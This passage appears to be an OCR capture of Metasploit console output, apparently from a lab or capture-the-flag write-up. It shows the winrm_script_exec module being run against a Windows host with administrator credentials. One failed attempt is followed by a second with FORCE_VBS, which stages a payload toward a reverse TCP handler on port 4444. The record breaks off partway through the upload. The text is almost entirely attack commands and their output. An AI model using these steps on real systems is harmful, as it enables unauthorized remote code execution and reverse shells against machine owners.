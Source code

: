 ```
msf5 exploit(windows/winrm/winrm_script_exec) > set USERNAME administrator
USERNAME => administrator
msf5 exploit(windows/winrm/winrm_script_exec) > set PASSWORD tinkerbell
PASSWORD => tinkerbell
msf5 exploit(windows/winrm/winrm_script_exec) > run

[*] Started reverse TCP handler on 10.10.21.2:4444 
[*] checking for Powershell 2.0
[-] Exploit failed: RuntimeError [BUG] Unexpected node test: <:child>: <[:qname, "w", "Items"]>
[*] Exploit completed, but no session was created.
```

```
msf5 exploit(windows/winrm/winrm_script_exec) > set FORCE_VBS true
FORCE_VBS => true
msf5 exploit(windows/winrm/winrm_script_exec) > run

[*] Started reverse TCP handler on 10.10.21.2:4444 
[*] User selected the FORCE_VBS option
[*] Command Stager progress -   2.01% done (2046/101936 bytes)
[*] Command Stager progress -   4.01% done (4092/101936 bytes)
[*] Command Stager progress -   6.02% done (6138/101936 bytes)
[*] Command Stager progress -   8.03% done (8184/101936 bytes)
[*] Command Stager progress -  10.04% done (10230/101936 bytes)
[*] Command Stager progress -  12.04% done (12276/101936 bytes)
[*] Command Stager progress -  14.05% done (14322/101936 bytes)
[*] Command Stager progress -  16.06% done (16368/101936 bytes)
[*] Command Stager progress -  18.06% done (18414/101936 bytes)
[*] Command Stager progress -  20.07% done (20460/101936 bytes)
[*] Command Stager progress -  22.08% done (22506/101936 bytes)
[*] Command Stager progress -  24.09% done (24552/101936 bytes)
[*] Command Stager progress -  26.09% done (26598/101936 bytes)
[*] Command Stager progress -  28.10% done (28644/101936 bytes)
[*] Command Stager progress -  30.11% done (30690/101936 bytes)
[*] Command Stager progress -  32.11% done (32736/101936 bytes)
[*] Command Stager progress -  34.12% done (34782/101936 bytes)
[*] Command Stager progress -  36.13% done (36828/101936 bytes)
[*] Command Stager progress -  38.14% done (38874/101936 bytes)
[*] Command Stager progress -  40.14% done (40920/101936 bytes)
[*] Command Stager progress -  42.15% done (42966/101936 bytes)
[*] Command Stager progress -  44.16% done (45012/101936 bytes)
[*] Command Stager progress -  46.16% done (47058/101936 bytes)
[*] Command Stager progress -  48.17% done (49104/101936 bytes)
[*] Command Stager progress -  50.18% done (51150/101936 bytes)
[*] Command Stager progress -  52.19% done (53196/101936 bytes)
[*] Command Stager progress -  54.19% done (55242/101936 bytes)
[*] Command Stager progress -  56.20% done (57288/101936 bytes)
[*] Command Stager progress -  58.21% done (59334/101936 bytes)
[*] Command Stager progress -  60.21% done (61380/101936 bytes)
[*] Command Stager progress -  62.22% done (63426/101936 bytes)
[*] Command Stager progress -  64.23% done (65472/101936 bytes)
[*] Command Stager progress -  66.24% done (67518/101936 bytes)
[*] Command Stager progress -  68.24% done (69564/101936 bytes)
[*] Command Stager progress -  70.25% done (71610/101936 bytes)
[*] Command Stager progress -  72.26% done (73656/101936 bytes)
[*] Command Stager progress -  74.26% done (75702/101936 bytes)
[*] Command Stager progress -  76.27% done (77748/101936 bytes)
[*] Command Stager progress -  78.28% done (79794/101936 bytes)
[*] Command Stager progress -  80.29% done (81840/101936 bytes)
[*] Command Stager progress -  82.29% done (83886/101936 bytes)
[*] Command Stager progress -  84.30% done (85932/101936 bytes)
[*] Command Stager progress -  86.31% done (87978/101936 bytes)
[*] Command Stager progress -  88.31% done (90024/101936 bytes)
[*] Command Stager progress -  90.32% done (92070/101936 bytes)
```